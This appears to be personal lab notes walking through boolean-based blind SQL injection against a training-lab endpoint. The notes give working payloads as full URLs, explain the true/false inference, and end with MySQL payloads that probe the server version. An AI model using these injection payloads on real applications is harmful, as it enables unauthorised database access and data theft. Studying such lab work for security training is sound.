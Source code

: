 ```
eg:  of successful execution of SQL query in DB
query : http://sqli2.naham.sec:8081/article-count?date=may%202020  
(response : count=2)


eg: of  unsuccessful execution of SQL query in DB
query: http://sqli2.naham.sec:8081/article-count?date=may%202020%27 
(response : count=0)

```
using this logic, lets try to find a successful execution of maliciously crafted sql query to get a successful response from DB as per our intention.


lets try  this payload  ( may 2020' and '1=1 )
http://sqli2.naham.sec:8081/article-count?date=may%202020%27%20and%20%271=1
![[Screenshot From 2025-03-04 22-41-07.png]]
it returns count=2,  therefore the sqli successfully executed

same for these  ( may 2020' or '1'='1 )   |  ( 'may 2020' or '1'='1 )
http://sqli2.naham.sec:8081/article-count?date=may%202020%27%20or%20%271%27=%271
![[Pasted image 20250304224507.png]]

Also if we do ( may 2020' and '1'='2 )
http://sqli2.naham.sec:8081/article-count?date=may%202020%27%20and%20%271%27=%272
it returns count=0
![[Screenshot From 2025-03-04 22-49-59.png]]
that means the query got executed in db , and the query was date = may 2020 and 1=2

since 1=2 is false , even though  date = may 2020 is true

due to " and " operator , if a single statement is false the whole statement became false
and the query didnt get executed as true, resulting in showing wrong value  (count=0)


so if 1=1 executes as true, and returns correct count of data in DB
and 1=2 executes as false, and return wrong count

that means the arbitrary query that we sent got executed in DB,  hence there is a blind sqli present.





Now, lets extract data from the vulnerability we found, by further modifying the payload that we give to sql query :

in this lab the DB is mysql so we craft payload using mysql syntax :-   (below i noted payloads that worked )
```
may 2020'and substring(@@version,1,1 )>=5 and '1=1
```

```
may 2020'and substring(@@version,1,1 )=8 and '1=1
```
